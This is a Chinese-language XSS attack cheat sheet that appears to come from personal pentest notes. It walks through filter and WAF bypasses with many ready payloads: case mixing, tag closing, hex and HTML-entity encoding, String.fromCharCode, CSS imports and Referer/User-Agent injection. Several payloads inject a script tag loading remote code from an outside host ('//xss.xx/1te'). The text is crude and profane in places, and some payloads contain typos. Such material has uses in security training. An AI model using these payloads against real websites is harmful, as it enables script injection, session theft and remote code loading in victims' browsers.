 # XSS
> 详细代码请转常用代码篇，有很多代码分析和实例，此篇仅供思路。
靶场：
http://demo.testfire.net/search.jsp?query=1

首先先打个`<a>,<b>`试试看，康康到底能不能输入一个框啊什么的，试试水对吧。在确定了可以在页面加入一个`<b>`或者一个`<a>`然后尝试后者：

就直接尝试xss语句，虽然90%不行，但是万一呢？对吧！

```
<script>alert('xss');</script>
```



## **如果有过滤**

输入：
```
< > ' " = ;
```
字符查看一下，那些被过滤了，那些被转义了，那些被删除了。


## 首先 构造一个payload

首先一个`xss payload`基本有以下几部分组成

[TAG]填充标签img svg video button...
[ATTR]=Something 填充一些非必要的属性 src=1 xmlns="jp.pornhub.com/"(a君：`兄弟借一步说话`GKDGKD)

[EVENT]填充事件属性onerror onload...
[PAYLOAD]填充JavaScript代码alert(1) top.alert(1)...

大体可以理解为：
```html
<[TAG]    [ATTR]=  sth    [EVENT]   =   [PAYLOAD] />
 标签头    属性     事件   事件属性        代码
```



## **大小写混写，双写绕过**

当一些敏感标签，如`script,img`中间被截断或者删除，可以尝试大小写混写，或者双写绕过:
```
<sCrIpT><>
<Imimgg><>
```




## **尝试闭合标签**

输入没什么过滤，但是无法直接弹窗可以尝试闭合标签然后使xss生效
比如：
```
"> <script>alert(1)</script>
```

## **如何绕过**

### **16进制编码绕过**

将XSS语句经过16进制编码转换来绕过XSS的规则。

列:
```
<script>alert(1)</script>
```
可以转换为
```
%3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%22%78%73%73%22%29%3b%3c%2f%73%63%72%69%70%74%3e
```

## **绕过PHP自带的安全设置**

在php中设置为`magic_quotes_gpc=ON`中安全设置开启，开启后会吧一些特殊字符进行转换，比如：`把'(单引号)转化为：`\`,双引号`"`转换为：``\"``

> 我们可以通过javascript中的`String.fromCharCode`方法来绕过

可以输入为：
```
<script>String.fromCharCode(97, 108, 101, 114, 116, 40, 34, 88,83, 83, 34, 41, 59)</script>
```





## **利用html标签属性值执行XSS**

很多HTML标记中的属性都支持JavaScript脚本，所以我反手给你个xss你怎么说？上号：
```
<img src = "http://58.221.227.52:82/functions/images/qysb/logo.png">
```
其中只要执行了js代码就可以弹窗，如果引用文件都可以绕过`<>`





## **使用空格，TAB，回车，js编码绕过**

如果过滤时对`JavaScript`进行了过滤，得益于JS代码的**优秀体制**(**该用谁心理有B数了8**)只需要对js做小小的操作即可绕过：
```
<img src= "java　　script:alert(‘xss‘);" width=100>
```
或者：
```
<img src= "javascript:  alert(/xss/);" width=100>
```

或者：
```
<a herf="javascr&#69pt:alert(1)">



```

## **利用CSS跨站解析**

大概就是去在文章引入的CSS中加入一串XSS代码，应为CSS不用嵌入到html中，可以直接从文件或其他地方进行引用。
`但是 浏览器之间不能通用`
```
<div style = "list-style-image:url(javascript:alert(‘xSS‘))">

<link rel = "stylesheet" href ="http://www.xxx.com/atack.css">

<style type=‘text/css‘>@import url(http://www.xxx.com/xss.css);</style>

<style>@import ‘javascript:alert(‘xss‘);‘</style>
```





## **利用字符编码**

利用16进制转换，或者ASCII表转换来进行xss
```
<script>eval("\61\6c\65......");<script>
```






## **尝试在请求包中输入值查看是否被带入数值**

在请求值中尝试加入referer值

```
Referer: aaaa" type="text" onclick="alert(1)"
```
尝试在User-Agent等值中输入值查看是否能够带入数值

```
user=" type="text" onclick="alert(1)"
```

## **构造payload(采用%0a绕过空格过滤)**

如果过滤了`script、/、与空格`
在url中直接加入`%0a`绕过空格过滤，解析出来不一样吗，火狐他不香吗？
```
http://127.0.0.1/xss/level16.php?keyword=<img%0asrc=1%0aonerror=alert(1)>
```












## **如果过滤了双引号和尖括号**

html`实体编码`来过滤尖括号和双引号也是属于编码绕过的一种，测试只有火狐可以实现(A君：谷歌你🐎死了)
```
http://IP/xss/level17.php?arg01=a&arg02=b onmouseover=alert(1)

```

当在url输入被过滤等因素后，可以尝试在输入框中加入`js代码`并使用js实体绕过:















**js实体编码**

javascrip&#x74;:alert(1) 十六进制
javascrip&#116;:alert(1) 十进制









## [**绕WAF**](https://xz.aliyun.com/t/6652)

当你兴致*勃勃* 输入了第一串代码`<b>`,欸？我日你妈 D盾，创宇盾拦截，百度云盾拦截。小逼崽子**D盾**三天之内祝你**心想事成！** 

> D盾还好，只是拦截，你还可以FUZZ,创宇盾直接给你ip封了，md我搞你还要准备几十个ip？

不常见标签

XSSfuzz生成器:https://github.com/NytroRST/XSSFuzzer/blob/master/fuzzer.html

```html
<details> <button> <select> <keygen> <textarea>等等
```

从网上收集的几个payload:
```html

<details open ontoggle=prompt(1)>
      <details open ontoggle=prompt(1)>
      <button onfocus=prompt(1) autofocus>
      <select autofocus onfocus=prompt(1)>

 <input autofocus onfocus=s=createElement("scriPt");body . appendChild(s);s.src="//xss.xx/1te">

 <keygen autofocus onfocus =s=createElement("scriPt" );body . appendchild(s);s. src="//xss.xx/1te">

<textarea autofocus onfocus=s=createElement("scriPt"); bady appendChild(s);s.src="//xss.xx/1te">

<video onkeyup=setTimeout`al\x65rt\x28/2/\x29```>

<svg src=1 onload=alert(1) />
<svg value=1 onload=alert(1) />
<video value=1 onerror=alert(1) />

```



绕 alert

```html
top[11189117..toString(32)](1);
</sCrIpT><svg  onwheel=top[11189117..toString(32)](1);>
```

¼script¾alert(¢XSS¢)¼/script¾
¼b¾1